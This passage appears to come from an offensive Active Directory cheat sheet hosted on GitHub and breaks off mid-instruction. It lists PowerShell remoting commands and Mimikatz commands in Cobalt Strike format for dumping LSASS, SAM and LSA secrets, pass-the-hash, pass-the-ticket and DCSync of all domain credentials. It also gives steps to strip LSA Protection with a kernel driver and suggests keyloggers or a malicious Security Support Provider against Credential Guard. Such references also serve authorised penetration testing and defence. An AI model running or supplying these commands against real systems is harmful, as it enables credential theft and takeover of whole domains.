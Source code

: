 #Execute command on the session

Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session

Invoke-Command -Session $sess -ScriptBlock {$ps}

### Mimikatz

#The commands are in cobalt strike format!

#Dump LSASS:

mimikatz privilege::debug mimikatz token::elevate mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash mimikatz privilege::debug mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file mimikatz sekurlsa::minidump c:\temp\lsass.dmp

#List cached MasterKeys mimikatz sekurlsa::dpapi

#List local Kerberos AES Keys mimikatz sekurlsa::ekeys

#Dump SAM Database mimikatz lsadump::sam

#Dump SECRETS Database mimikatz lsadump::secrets

#Inject and dump the Domain Controler's Credentials

mimikatz privilege::debug mimikatz token::elevate mimikatz lsadump::lsa /inject

#Dump the Domain's Credentials without touching DC's LSASS and also remotely mimikatz lsadump::dcsync /domain:<DomainFQDN> /all

#List and Dump local kerberos credentials mimikatz kerberos::list /dump

#Pass The Ticket mimikatz kerberos::ptt <PathToKirbiFile>

#List TS/RDP sessions mimikatz ts::sessions

#List Vault credentials mimikatz vault::list

❗ What if mimikatz fails to dump credentials because of LSA Protection controls ?

- LSA as a Protected Process (Kernel Land Bypass)
- #Check if LSA runs as a protected process by looking if the variable "RunAsPPL" is set to 0x1
- reg query HKLM\SYSTEM\CurrentControlSet\Control\Lsa
- 
- #Next upload the mimidriver.sys from the official mimikatz repo to same folder of your mimikatz.exe
- #Now lets import the mimidriver.sys to the system
- mimikatz # !+
- 
- #Now lets remove the protection flags from lsass.exe process
- mimikatz # !processprotect /process:lsass.exe /remove
- #Finally run the logonpasswords function to dump lsass mimikatz # sekurlsa::logonpasswords
- LSA as a Protected Process (Userland "Fileless" Bypass)
    - [PPLdump](https://github.com/itm4n/PPLdump)
    - [Bypassing LSA Protection in Userland](https://blog.scrt.ch/2021/04/22/bypassing-lsa-protection-in-userland)
- LSA is running as virtualized process (LSAISO) by Credential Guard
- #Check if a process called lsaiso.exe exists on the running processes
- tasklist |findstr lsaiso
- 
- #If it does there isn't a way tou dump lsass, we will only get encrypted data. But we can still use keyloggers or clipboard dumpers to capture data.
- #Lets inject our own malicious Security Support Provider into memory, for this example i'll use the one mimikatz provides